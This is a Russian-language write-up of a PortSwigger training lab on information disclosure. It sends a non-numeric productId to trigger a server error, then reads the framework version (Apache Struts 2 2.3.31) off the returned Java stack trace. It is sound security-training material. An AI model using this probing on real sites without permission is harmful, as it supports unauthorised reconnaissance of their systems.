

лаба https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages

код сайта - в ошибках сам сливает версии фреймворка
задание:
нужно получить версию фреймворка

---
вместо номера поста вбил фигню
GET /product?productId=hack HTTP/2

 и в ответе получил все что только можно
 ```http
 HTTP/2 500 Internal Server Error
Content-Length: 1678

Internal Server Error: java.lang.NumberFormatException: For input string: "hack"
	at java.base/java.lang.NumberFormatException.forInputString(NumberFormatException.java:67)
	at java.base/java.lang.Integer.parseInt(Integer.java:661)
	at java.base/java.lang.Integer.parseInt(Integer.java:777)
	at lab.k.s.m.d.P(Unknown Source)
	at lab.l.z.k.h.j(Unknown Source)
	at lab.l.z.t.t.z.j(Unknown Source)
	at lab.l.z.t.v.lambda$handleSubRequest$0(Unknown Source)
	at g.i.y.w.lambda$null$3(Unknown Source)
	at g.i.y.w.s(Unknown Source)
	at g.i.y.w.lambda$uncheckedFunction$4(Unknown Source)
	at java.base/java.util.Optional.map(Optional.java:260)
	at lab.l.z.t.v.c(Unknown Source)
	at lab.server.h.s.i.Q(Unknown Source)
	at lab.l.z.a.f(Unknown Source)
	at lab.l.z.a.Q(Unknown Source)
	at lab.server.h.s.k.i.F(Unknown Source)
	at lab.server.h.s.k.p.lambda$handle$0(Unknown Source)
	at lab.k.v.m.s.B(Unknown Source)
	at lab.server.h.s.k.p.W(Unknown Source)
	at lab.server.h.s.r.v(Unknown Source)
	at g.i.y.w.lambda$null$3(Unknown Source)
	at g.i.y.w.s(Unknown Source)
	at g.i.y.w.lambda$uncheckedFunction$4(Unknown Source)
	at lab.server.l.X(Unknown Source)
	at lab.server.h.s.r.q(Unknown Source)
	at lab.server.h.k.k.X(Unknown Source)
	at lab.server.h.t.R(Unknown Source)
	at lab.server.h.g.R(Unknown Source)
	at lab.server.mk.L(Unknown Source)
	at lab.server.mk.T(Unknown Source)
	at lab.c.b.lambda$consume$0(Unknown Source)
	at java.base/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1144)
	at java.base/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:642)
	at java.base/java.lang.Thread.run(Thread.java:1583)

Apache Struts 2 2.3.31
 ```





-------

Apache Struts 2 2.3.31 - лаба решена

вывод ясен и так.. ошибка полностью вывела овер много важной инфы!
